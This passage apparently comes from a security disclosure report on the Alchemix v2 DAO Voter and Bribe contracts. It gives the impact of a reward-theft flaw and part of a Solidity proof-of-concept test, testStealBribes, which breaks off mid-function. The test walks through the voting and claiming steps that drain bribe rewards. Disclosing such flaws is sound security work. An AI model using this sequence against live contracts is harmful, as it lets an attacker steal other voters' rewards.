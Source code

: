 ## Impact Details
The impact of this issue will vary based on the participating voters voting power and the pool allocations and can span from rewards being fully stolen to partially stolen and preventing all / some users from claiming theirs because of a lack of funds to cover their shares. 

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L332-L380
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol
        
## Proof of concept
## Proof of Concept
```solidity
    function testStealBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, 2 * TOKEN_1, MAXTIME, false);

        Bribe sushiGaugeBribe = Bribe(voter.bribes(address(sushiGauge)));
        address sushiGaugeBribeToken = sushiGaugeBribe.rewards(0);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 1;

        // Notify rewards to sushi bribe
        createThirdPartyBribe(address(sushiGaugeBribe), sushiGaugeBribeToken, TOKEN_1);

        skip(1 days);
        // Vote for tokendId1
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // Go to next epoch
        hevm.warp(newEpoch());

        address[] memory bribes = new address[](1);
        bribes[0] = address(sushiGaugeBribe);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = sushiGaugeBribeToken;

        // admin claims Bribe rewards from previous epoch.
        // This calls Bribe@getRewardForOwner setting lastEarn time for the given token and triggering a new checkpoint for that token.
        // admin gets all the rewards as he is the only who voted in the previous epoch.
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        skip(1 days);
        // Distribute gauge rewards
        // This calls Bribe@resetVoting which set totalVoting to 0 in that Bribe without triggering a voting checkpoint.
        voter.distribute();

        skip(1 days);
        // Notify rewards to sushi bribe again
        createThirdPartyBribe(address(sushiGaugeBribe), sushiGaugeBribeToken, TOKEN_1);

        // Two other users now vote in this epoch.
        // This call Bribe@deposit (amongst other calls) and triggers new token, voting and supply checkpoints.
```